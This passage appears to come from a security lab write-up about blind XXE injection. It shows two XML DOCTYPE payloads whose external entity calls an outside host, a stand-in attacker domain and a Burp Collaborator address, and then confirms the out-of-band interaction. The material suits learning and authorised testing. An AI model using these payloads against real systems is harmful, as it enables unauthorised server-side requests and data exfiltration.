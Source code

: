 And this DOC type
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "[http://f2g9j7hhkax.web-attacker.com](http://f2g9j7hhkax.web-attacker.com)"> ]>
```

Adding collaborator id
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "[http://9ku1w9odyxg62dwqsjgfbrekdbj27svh.oastify.com](http://9ku1w9odyxg62dwqsjgfbrekdbj27svh.oastify.com)"> ]>
```

And call using `&xxe;`

Send the request

<img src="images/image25.png" alt="third" width="500">

We have interaction in collaborator

<img src="images/image26.png" alt="third" width="500">
